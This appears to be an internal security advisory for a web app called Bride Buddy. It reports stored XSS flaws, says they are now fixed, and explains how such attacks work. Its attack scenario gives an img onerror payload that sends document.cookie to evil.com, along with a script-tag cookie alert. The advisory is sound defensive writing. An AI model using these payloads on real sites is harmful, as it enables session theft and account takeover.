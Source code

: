 # 🚨 CRITICAL XSS SECURITY VULNERABILITIES - IMMEDIATE ACTION REQUIRED

**Date**: October 28, 2025
**Severity**: **CRITICAL** - Launch Blocker
**Risk Level**: **🔴 EXTREME**
**Impact**: Account Takeover, Session Theft, Data Breach

---

## Executive Summary

**CRITICAL STORED XSS VULNERABILITIES** have been identified and **✅ FIXED** in Bride Buddy. These vulnerabilities would have allowed malicious users to inject JavaScript code that executes in other users' browsers, leading to:

- ❌ **Session token theft** (Supabase auth tokens) - **NOW BLOCKED**
- ❌ **Full account takeover** - **NOW PREVENTED**
- ❌ **Data exfiltration** - **NOW PREVENTED**
- ❌ **Malicious actions on behalf of victims** - **NOW PREVENTED**

**STATUS**: ✅ **ALL FIXES COMPLETE** - Testing required before launch

---

## Vulnerability Classification

### What is Stored XSS?

Stored XSS (Cross-Site Scripting) occurs when:
1. Malicious user enters script code (e.g., `<script>alert(document.cookie)</script>`)
2. Application stores it in database without sanitization
3. Application displays it to other users without escaping HTML
4. Script executes in victim's browser with full access to their session

### Attack Scenario Example

```javascript
// Attacker creates vendor named:
<img src=x onerror="fetch('https://evil.com?token='+document.cookie)">

// When victim views dashboard:
// 1. Vendor name renders as HTML
// 2. Image fails to load, triggers onerror
// 3. JavaScript sends session token to attacker's server
// 4. Attacker uses token to impersonate victim
```

---

## Vulnerabilities Found & Fixed
